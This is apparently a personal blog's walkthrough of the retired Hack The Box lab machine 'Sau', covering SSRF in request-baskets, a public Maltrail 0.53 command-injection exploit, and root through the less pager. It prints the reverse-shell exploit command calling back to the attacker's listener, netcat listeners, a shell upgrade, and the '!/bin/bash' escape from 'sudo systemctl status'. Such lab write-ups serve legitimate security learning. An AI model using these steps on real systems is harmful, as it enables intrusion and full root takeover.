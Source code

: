 ```yaml
---
title: Sau
categories: HTB
tags: complete retired easy linux
img_path: /assets/img/HTB/Sau/
---
```


![Sau HTB machine card]({{ page.img_path }}Sau.png)

> Sau is an easy Linux machine from Hack the Box. Here is the tldr;
>
> * nmap shows ports 22 and 55555 are open and port 80 is filtered.
> * Port 55555 is running a version of `request-baskets` that is vulnerable to SSRF, allowing us to set up a proxy to access port 80.
> * Port 80 is running a service called `Maltrail` which is vulnerable to unauthenticated remote OS comand injection, allowing us to get a reverse shell.
> * Our user is able to run systemctl as sudo. This version uses the pager `less`, which retains the sudo priviledges allowing us to spawn a shell as root.
{: .prompt-tip }

## Video Walkthrough

{% include youtube.html url='cHuljUzBv3Y?si=vCjDGM5yApRHArhN' %}

## Enumeration

Let's start off with a basic nmap scan.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nmap 10.10.11.224                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 15:07 MST
Nmap scan report for 10.10.11.224
Host is up (0.061s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 11.14 seconds
```

SSH is probably not our ticket and port 80 is filtered, so 55555 is looking really interesting. Let's take a closer look and see what we have.

### Request Baskets

![Create a new basket]({{ page.img_path }}new_basket.png)
Visiting our ip address at port 55555 in a browser shows us a page called Request Baskets, which says it can collect and inspect HTTP requests.

Further investigation shows us that it is powered by request-baskets version 1.2.1. This should be helpful!

![Request Basket version 1.2.1]({{ page.img_path }}request_baskets_version.png)

Searching Google for request baskets version 1.2.1 reveals that it is vulnerable to server side request forgery (SSRF), CVE-2023-27163. Maybe we can use this to see what is on port 80?

Let's test it out by starting a netcat listener on our machine and see if we can reach it by creating a new basket.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nc -lvnp 80
```

In the basket settings, let's configure it to forward the request to our Kali machine's IP address.

![Forwarding settings for basket]({{ page.img_path }}forward_settings1.png)

Next, let's curl the basket using the URL provided

![The url for our basket]({{ page.img_path }}basket_url.png)

Success! We are able to receive the request we sent on our netcat listener.

![curl the basket with nc listener open]({{ page.img_path }}nc_request.png)

### SSRF

Now that we see how things work and know that it is vulnerable, let's see if we can use it to connect to the mysterious port 80. To do this, let's edit the settings for our basket again and set it to forward port 80 from `http://127.0.0.1` with Proxy Response and Expand Forward Path checked.

![Adjusting the settings for our basket]({{ page.img_path }}forward_settings2.png)

### Maltrail v 0.53

Now when we go to the URL for the basket, it gives us a broken looking site. At the bottom, we notice it is running something called Maltrail v 0.53. 

![Broken looking homepage for maltrail on port 80]({{ page.img_path }}maltrail.png)

Google shows us that this version is vulnerable to unauthenticated OS command injection (RCE). I found this Python exploit that should give us a reverse shell. [Spookier Maltrail v 0.53 Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit)

### We have a shell!

To run the exploit, we just need to start a netcat listener (I chose port 9001), then run the exploit passing it our listening IP address and port, along with the url for our basket.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB]
└─$ python3 maltrail.poc.py 10.10.14.6 9001 http://10.10.11.224:55555/ionzxhf
```

![Terminal showing reverse shell]({{ page.img_path }}rev_shell.png)
Hooray! We now have a reverse shell, it looks like we're currently running as the user "puma".

## Foothold & User

Let's upgrade our shell a little and take a look around.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.224] 51276
$ python3 -c 'import pty;pty.spawn("/bin/bash")';
python3 -c 'import pty;pty.spawn("/bin/bash")';
puma@sau:/opt/maltrail$ 
```

### User Flag

If we navigate to `/home/puma` we are able to get the `user.txt` flag, no privesc needed at this point.

### Privesc

One of the first things I like to run is `sudo -l` to see if our user can run anything as root.

```bash
puma@sau:/opt/maltrail$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Bingo! Looks like we're able to run `sudo systemctl status trail.service` with no password. If we run `systemctl --version`, we see that we're running `systemd 245 (245.4-4ubuntu3.22)`.

## Root!

It appears that if we run the command as sudo, it will use the pager `less` to show the results. Within `less`, we are able to run commands and it maintains the sudo priviledges allowing us to launch `/bin/bash` as root. To run a command in less you just type `!` followed by your command.

```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@sau:/opt/maltrail# id
id
uid=0(root) gid=0(root) groups=0(root)
root@sau:/opt/maltrail# 
```

And we have root!



